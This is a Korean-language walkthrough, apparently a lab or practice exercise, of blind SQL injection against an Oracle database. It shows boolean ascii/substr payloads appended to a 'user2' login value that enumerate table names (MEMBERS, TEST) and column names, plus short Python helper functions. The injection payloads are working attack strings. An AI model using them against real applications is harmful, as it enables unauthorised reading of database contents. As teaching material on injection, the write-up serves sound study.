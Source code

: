 - 추출한 데이터.

```
C##DBFORPROB
```



## 테이블 명 추출하기.
- 현재 존재하는 테이블 명들을 추출해 보자.

```sql
select table_name from all_tables where owner='C##DBFORPROB' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;
또는 
select tname from tab OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;

공격 포맷 = ' user2' and ((ascii(substr((select table_name from all_tables where owner='C##DBFORPROB' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY),1,1)))>0) and '1'='1 '

공격 포맷 = ' user2' and ((ascii(substr((select tname from tab OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY),1,1)))>0) and '1'='1 '

더 짧은 2번째 공격 포맷을 이용하였다.
```


- 파이썬 코드로 빠르게 테이블 명 찾기.

```python
def find_table_name():
    query = "select tname from tab"
    find_data(query)
    return
```

- 추출한 데이터.

```
MEMBERS
TEST
```



## 컬럼 명 추출하기.
- 테이블의 컬럼명을 추출하기.

```sql
select column_name from cols where table_name='MEMBERS' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;
select column_name from cols where table_name='TEST' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;

공격 포맷 = ' user2' and ((ascii(substr((select column_name from cols where table_name='MEMBERS' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY),1,1)))>0) and '1'='1 '
```

- 파이썬 코드로 빠르게 컬럼 명 찾기.

```python
def find_column_name(table_name):
    query = "select column_name from cols where table_name='"+table_name+"'"
    find_data(query)
    return
```
